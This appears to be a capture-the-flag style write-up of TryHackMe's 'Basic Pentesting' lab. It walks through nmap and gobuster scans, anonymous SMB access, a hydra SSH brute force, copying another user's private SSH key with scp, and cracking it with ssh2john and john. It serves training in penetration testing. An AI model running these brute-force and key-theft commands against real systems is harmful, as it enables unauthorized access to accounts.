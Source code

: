 # Basic Pentesting | TryHackMe
1. First, nmap to the target.

`nmap -sV 10.10.150.97`
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 13:17 JST
Nmap scan report for 10.10.150.97
Host is up (0.30s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3390/tcp filtered dsc
3517/tcp filtered 802-11-iapp
8009/tcp open     ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open     http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 300.35 seconds
```
2. http is available and I'm going to see it.

![picture](https://github.com/itc-n22003/new/blob/main/pictures/basic_pentesting_80.png)

I didn't find anything in particular.

3. I'll try gobuster.

`gobuster dir -w common.txt -u http://10.10.150.97`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.97
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/n22003/Work/Wordlist/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/11 13:34:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/development          (Status: 301) [Size: 318] [--> http://10.10.150.97/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 300]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/05/11 13:37:09 Finished
===============================================================
```

4. I'll take a look at it since the `/development` is suspicious.
Found dev.txt and j.txt.
According to dev.txt, smb is free. (I knew this from nmap earlier...)

5. Take a look at the SMB.
```
        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2
```
Check Anonymous.

6. I'll try to connect it to Anonymous.

`smbclient \\\\10.10.150.97\\Anonymous`
No passwords.
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Apr 20 02:31:20 2018
  ..                                  D        0  Fri Apr 20 02:13:06 2018
  staff.txt                           N      173  Fri Apr 20 02:29:55 2018

                14318640 blocks of size 1024. 11094400 blocks available
```
Take a look at staff.txt

`more staff.txt`

I found a user named Jan.

7. I'm going to try to do a total ssh hit on Jan with hydra.

`hydra -l jan -P rockyou.txt 10.10.150.97 ssh`

8. Now that I have jan's password, I'll try connecting via ssh.
There was nothing special in jan's directory.
However, there were some in kay's directory, so I tried ssh connection with kay.

9. Get kay key.
I'll try to see if I can get the kay key with scp.

`scp jan@10.10.150.97:/home/kay/.ssh/id_rsa .`

The password is jan's.
I got it and I'm going to feed it to john.

`ssh2john id_rsa > hash`

Analyze with john.

`john --wordlist=rockyou.txt hash`

Now that I know kay's password, I change id_rsa's permissions to 600 and ssh.

`chmod 600 id_rsa`

`ssh -i id_rsa kay@10.10.150.97`

The password is the one I just parsed.
If you can log in, check pass.bak and that's it.
